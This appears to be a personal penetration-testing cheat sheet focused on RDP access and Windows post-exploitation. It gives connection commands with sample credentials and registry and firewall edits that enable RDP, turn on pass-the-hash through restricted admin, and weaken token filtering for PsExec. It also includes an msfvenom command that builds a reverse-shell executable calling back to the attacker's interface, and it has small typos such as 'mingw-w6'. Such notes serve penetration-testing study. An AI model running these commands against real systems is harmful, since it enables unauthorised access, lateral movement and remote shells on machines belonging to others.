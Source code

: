 ## RDP

username options note: `/u:[[<domain>\]<user>|<user>[@<domain>]]`

with no creds, you can take a gander with `rdesktop`
```bash
rdesktop 192.168.246.247
```

if you get cert error, try:
```bash
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1400 /u:rdp_admin /p:'P@ssw0rd!' /v:192.168.240.64
```

with file transfer and optimizations:
```bash
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /bpp:8 /drive:/usr/share/windows-resources,share /cert-ignore
```

my preferred settings:
```bash
xfreerdp /u:sender /p:'password123!' /v:192.168.208.151 /cert-ignore /bpp:8 +clipboard /dynamic-resolution &  
```

wroth trying when you should be able to get in:
```bash
/restricted-admin  
```
### enable RDP (req admin, post exploitation)
```cmd
# FROM HACKTRICKS: Enable Remote Desktop

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed
```
### enable rdp pass-the-hash
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

## disable local account token filter policy for PsExec

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
## msfvenom binary revshell exe
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 -f exe -o /usr/local/share/post-exploitation/windows/privEsc/bin/shell8443.exe
```
## cross compiler install:
```bash
sudo apt install mingw-w6
```
